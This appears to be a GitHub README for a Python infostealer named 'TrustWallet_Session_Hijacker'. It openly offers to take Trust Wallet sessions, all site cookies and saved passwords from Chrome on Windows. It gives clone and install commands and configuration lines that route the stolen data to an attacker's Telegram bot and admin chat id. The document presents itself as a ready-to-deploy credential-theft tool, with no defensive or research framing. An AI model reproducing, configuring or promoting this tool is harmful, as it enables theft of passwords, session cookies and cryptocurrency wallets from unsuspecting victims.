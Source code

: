 # windows chrome hijacker

python script for make trust wallet session hijacker in chrome (win) and hijack all cookies and saved passwords in browser

## targets

<div align="center">

| **browser**  | **target data**  |
|:--------:|:-----------:|
| **chrome (win)** | ✔️ trust wallet session   |
| **chrome (win)** | ✔️ all sites cookies   |
| **chrome (win)** | ✔️ all saved passwords   |

</div>

## Prerequisites

- Python 3
- windows system for run bot

## Installation

1. **Clone the Repository**
   ```sh
   git clone https://github.com/fploit/TrustWallet_Session_Hijacker
   cd TrustWallet_Session_Hijacker
   ```

2. ** Install python librarys **
   ```sh
   pip install -r requirements.txt
   ```

## Edit Files

1. ** Edit bot.py (add telegram bot token and admin chat id**
   ```python
   bot = telebot.TeleBot("TELEGRAM_BOT_TOKEN", parse_mode="html")   # <------- edit this line
   admin = -1001797987215 #admin chat id                            # <------- edit this line
   ```

2. ** Edit hijacker.py (add telegram bot token and admin chat id**
   ```python
   tel_bot = telebot.TeleBot(token="TELEGRAM_BOT_TOKEN")            # <------- edit this line
   chat_id = CHATX_IDX_X
   admin = -1001797987215 # admin chat id for all users data log    # <------- edit this line
   ```


## run bot in windows server or ...

- run
  ```sh
  python3 bot.py
  ```
